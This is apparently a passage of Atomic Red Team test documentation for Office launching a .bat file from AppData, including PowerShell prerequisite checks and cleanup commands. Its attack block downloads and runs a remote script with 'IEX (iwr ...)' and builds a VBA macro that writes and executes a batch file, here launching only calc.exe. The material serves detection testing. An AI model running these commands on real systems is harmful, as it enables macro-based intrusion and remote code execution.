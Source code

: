 

#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
$ms_office_version = #{ms_office_version}
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\$ms_office_version) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #5 - Office launching .bat file from AppData
Microsoft Office creating then launching a .bat script from an AppData directory. The .bat file launches calc.exe when opened.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bat_path | Path to malicious .bat file | String | $env:temp+"&#92;art1204.bat"|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office". Default latest version. | string | ((Get-ChildItem Registry::HKEY_CURRENT_USER&#92;Software&#92;Microsoft&#92;Office -Name | select-string -pattern "^&#92;d+&#92;.&#92;d+$").line.foreach({[decimal]$_}) | Sort-Object -desc)[0]|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$ms_office_version = #{ms_office_version}
$bat_path = #{bat_path}
$macrocode = "   Open `"$bat_path`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c $bat_path `", vbNormalFocus)`n"
Invoke-MalDoc $macrocode "$ms_office_version" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
$ms_office_version = #{ms_office_version}
if (Test-Path (#{bat_path})) { Remove-Item (#{bat_path}) }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\$ms_office_version\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```
